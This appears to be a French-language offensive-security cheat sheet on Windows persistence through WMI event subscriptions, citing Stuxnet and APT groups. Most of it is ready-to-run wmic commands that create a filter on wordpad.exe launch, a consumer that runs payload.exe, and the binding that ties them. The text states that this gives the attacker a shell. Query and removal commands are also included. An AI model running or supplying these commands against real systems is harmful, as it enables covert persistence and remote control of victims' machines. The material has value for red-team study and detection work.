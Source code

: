 
> [!NOTE] Stuxnet, APT29, Turla, SeaDuke

WMI (Windows Management Instrumentation) s'executer par defaut an tant que `SYSTEM`

Querying:

```c
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter GET /format:list
wmic /NAMESPACE:"\\root\subscription" PATH __EventConsumer GET /format:list
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding GET /format:list
```

Setup:

```c
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="INFilter", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="Select * From __InstanceCreationEvent Within 15 Where (TargetInstance Isa 'Win32_Process' And TargetInstance.Name = 'wordpad.exe')"
```

```c
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="INConsumer", WorkingDirectory="C:\pers", CommandLineTemplate="C:\pers\payload.exe"
```

```c
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"INFilter\"", Consumer="CommandLineEventConsumer.Name=\"INConsumer\""
```

Maintenant losrque le fichier `wordpad.exe` sera ouvert nous reverons un shell sur notre machine attaquante


Removal:

```http
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding WHERE Filter="__EventFilter.Name='INFilter'" DELETE
```

```http
wmic /NAMESPACE:"\\root\subscription" PATH  __EventFilter WHERE Name="INFilter" DELETE
```

```http
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer WHERE Name="INConsumer" DELETE
```
